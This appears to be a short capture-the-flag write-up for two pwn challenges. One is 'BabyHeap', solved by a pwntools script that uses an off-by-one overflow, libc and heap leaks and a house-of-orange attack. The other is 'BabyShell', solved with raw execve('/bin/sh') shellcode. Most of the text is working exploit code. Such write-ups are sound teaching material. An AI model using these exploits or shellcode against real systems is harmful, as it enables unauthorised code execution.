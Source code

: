 # pwn

do the CTF at the rush, so only two easiest challenge

## BabyHeap

Old style challenge...but we have `seccomp rule` which prevents `one_gadget` and `system`. Also, the `alloc` will remove all the content when `malloc` new chunks. However, there is an *off by one* in reading. So we can leak and use house of orange:
```python
from pwn import *
context.log_level = "DEBUG"

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process("./babyheap")
gdb.attach(p)

def add(size):
    p.sendlineafter("Choice:", "1")
    p.sendlineafter("Size:", str(size))

def edit(idx, content, enter = True):
    p.sendlineafter("Choice:", "2")
    p.sendlineafter("Index:", str(idx))
    if enter == True:
        p.sendlineafter("Content:", content)
    else:
        p.sendafter("Content:", content)

def delete(idx):
    p.sendlineafter("Choice:", "3")
    p.sendlineafter("Index:", str(idx))

def show(idx):
    p.sendlineafter("Choice:", "4")
    p.sendlineafter("Index:", str(idx))

# off by one
add(0x20 - 0x8) # 0
add(0x400 - 0x20 - 0x310 - 0x20 - 8 + 0x200 - 0x100) # 1
add(0x20 - 8) # 2
add(0x310 - 8 + 0x100) # 3
add(0x20 - 8) # 4 and prevent merge

delete(3)
add(0x310 - 8) # 3
edit(3, (0x310 - 8 * 4) * "A" + p64(0x300) + p32(0x100))
add(0x100 - 8) # 5

delete(3)
edit(2, (0x20 - 8) * "A")

add(0x120 - 8) # 3
add(0x1e0 - 8) # 6 -> overlaped chunk

delete(3)
delete(5)
# leak libc
add(0x120 - 8) # 3
add(0x110 - 8) # 5
delete(5)
show(6)

p.recvn(1)
leak = u64(p.recvn(6) + "\x00\x00")
print "Leak: " + hex(leak)

system_addr = leak - 0x37f7e8
print "System addr: " + hex(system_addr)
libc_base = system_addr - libc.symbols["system"]

top2 = leak + 0x9a8 # io_list_all
top3 = top2 - 0x10 

# leak heap
add(0x2f0 - 8) # 5
delete(1)
delete(5)
show(6)
p.recvn(1)
heap_base = u64(p.recvn(6) + "\x00\x00") - 0x20
print "Heap Base: " + hex(heap_base)
add(0x1b0 - 8) # 1

delete(3)
add(0x130 - 0x8) # 3

delete(4)

# house of orange
edit(6, "A" * 8 + p64(0xce1))
add(4096)
edit(6, "/bin/sh\x00" + p64(0x61) + p64(leak) + p64(top3) + p64(2) + p64(3) + p64(0) * 6 + p64(heap_base) + p64(0) * 14 + p64(heap_base))
edit(0, p64(0x41414141) * 3)
add(10)

p.interactive()

```

I didn't find the gadget to restore context during match. However, I realize we can `pop rbp` and use `setcontext` to ROP.

## BabyShell

The following is a minimal PoC worked locally. However, we need to brutefroce directory in remote environment.

```python
from pwn import *
p = process("./shellcoder")
gdb.attach(p)

p.recvuntil(":")

p.send("\x90\x57\x5e\x87\xfa\x0f\x05") # push rdi; pop rsi; xchg edx, edi; syscall
p.send("\xcc" * 0x10 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05") # shellcode
p.interactive()

```
